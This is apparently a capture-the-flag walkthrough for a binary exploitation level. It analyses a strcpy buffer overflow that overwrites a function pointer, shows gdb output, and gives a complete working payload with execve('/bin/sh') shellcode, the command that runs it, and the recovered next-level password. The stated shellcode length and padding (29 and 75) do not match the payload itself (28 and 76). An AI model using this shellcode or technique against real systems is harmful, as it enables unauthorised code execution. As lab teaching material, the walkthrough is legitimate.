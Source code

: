# Level 09 Walkthrough

## Binary analysis

The binary uses function pointers and user-controlled data, making it vulnerable to a buffer overflow. By overflowing a buffer, we can inject shellcode and overwrite a function pointer to execute arbitrary code.

### Key decompiled code

The program allocates memory and uses user input to set up function pointers and buffers. Eventually, it calls a function pointer that can be overwritten via a buffer overflow.
Example vulnerable code:
```c
char buffer[...];
// ...
strcpy(buffer, user_input); // vulnerable
// ...
call function_pointer; // can be overwritten
```

When given a big input, we can see a segfaults happening here:
```
Program received signal SIGSEGV, Segmentation fault.
0x08048682 in main ()
(gdb) p/x $eip
$1 = 0x8048682
(gdb) disass
   0x08048677 <+131>:	call   0x804870e <_ZN1N13setAnnotationEPc>
   0x0804867c <+136>:	mov    0x10(%esp),%eax
   0x08048680 <+140>:	mov    (%eax),%eax
=> 0x08048682 <+142>:	mov    (%eax),%edx
   0x08048684 <+144>:	mov    0x14(%esp),%eax
   0x08048688 <+148>:	mov    %eax,0x4(%esp)
   0x0804868c <+152>:	mov    0x10(%esp),%eax
   0x08048690 <+156>:	mov    %eax,(%esp)
   0x08048693 <+159>:	call   *%edx
```

On those lines, eax is dereferenced twice and moved to edx, which is later called as a function pointer.
In C-like terms: `eax = *p; edx = **p; ((func_t)edx)(arg1, arg2);`

## Exploitation

Let's get the address of our buffer, we know it's the return value of setAnnotation call.

```
(gdb) b *0x0804867c
Breakpoint 1 at 0x804867c
(gdb) r ABCDEFGHIJKLMNOPQRSTUVWXYZ
Starting program: /home/user/level9/level9 ABCDEFGHIJKLMNOPQRSTUVWXYZ

Breakpoint 1, 0x0804867c in main ()
(gdb) x/s $eax
0x804a00c:	 "ABCDEFGHIJKLMNOPQRSTUVWXYZ"
```

We find the offset to be 108 bytes thanks to the cyclic pattern.
```
(gdb) b *0x08048680
Breakpoint 1 at 0x8048680
(gdb) r Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6A
Starting program: /home/user/level9/level9 Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6A

Breakpoint 1, 0x08048680 in main ()
(gdb) x/s $eax
0x804a078:	 "Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6A"
```

We craft a payload so that there is one address to jump to in the buffer then to jump to the shellcode.
```
0x804a00c + 4 = 0x804a010
```

The padding is 108 - 4 (the address to jump to the shellcode) - 29 (length of the shellcode) = 75
```
payload = b"\x08\x04\xa0\x10"[::-1] + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + b"A"*76 + b"\x08\x04\xa0\x0c"[::-1]
```

## Commands used

```
./level9 $(python -c 'print(b"\x08\x04\xa0\x10"[::-1] + b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" + b"A"*76 + b"\x08\x04\xa0\x0c"[::-1])')
cat /home/user/bonus0/.pass
```

## Result

After running the exploit, we get the password for bonus0:

```
cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```